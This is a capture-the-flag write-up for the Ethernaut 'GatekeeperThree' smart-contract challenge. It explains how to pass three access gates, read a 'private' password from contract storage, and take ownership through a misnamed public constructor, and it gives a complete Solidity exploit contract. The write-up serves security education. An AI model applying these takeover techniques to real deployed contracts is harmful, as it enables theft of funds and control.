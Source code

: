 # Answer

Goal: Become an entrant in `GatekeeperThree` contract instance.

## 1. Gate passing requirements

The gatekeeper method that we want to call is `enter()`, since it sets the `tx.origin` to `entrant`. The `enter()` is wrapped by three modifiers. To work around each, the requirements are:

- **gateOne** - the `msg.sender` and `tx.origin`, can't be the same address. And `msg.sender` has to be owner. The `msg.sender` should be a contract, which calls the `construct0r()` function to become the `owner`.
- **gateTwo** - `allowEntrance` should be set to true. This can be achieved if we supplied the `password` stored in `SimpleTrick`. We can reuse the web3 `getStorageAt()` to find that out.
- **gateThree** - requires the contract to funded atleast 0.001 ETH and should fail sending that amount to `msg.sender`. The contract should simply not implement payable `receive()` or `fallback()`.


## 2. Initialize the trick and fetch password

Before we can start constructing the exploit contract we have to call `createTrick()` so that `GatekeeperThree` would create a `SimpleTrick` instance for itself. And consequently we could read the `password` slot for `gateTwo` modifier.

```javascript
await contract.createTrick()
```

Now we can read the password slot value:

```javascript
await web3.eth.getStorageAt(contract.trick(), 2)
```

## 3. Resulting contract

Taken into account all previously mentioned requirements, here is the resulting contract:

```solidity
contract GatekeeperThreeExploit {
    GatekeeperThree g;

    // Don't forget to fund the contract
    constructor(address payable targetAddr) public payable {
        g = GatekeeperThree(targetAddr);
    }

    function enter(uint256 password_) public {
        // gateOne
        g.construct0r();

        // gateTwo
        g.getAllowance(password_);

        // gateThree
        if (address(g).balance <= 0.001 ether) {
            bool success = payable(g).send(0.0011 ether - address(g).balance);
            require(success, "Failed to send ether");
        }

        g.enter();
    }
}

```

During deployment the address of `GatekeeperThree` should be provided to the constructor and a minimum of 0.001 ETH deposited. After that supply the fetched password value when calling `GatekeeperThreeExploit.enter()`.

NOTE: there was an alternative way to get the `password` value, using `SimpleTrick.trickyTrick()`, but the current solution seemed more straightforward.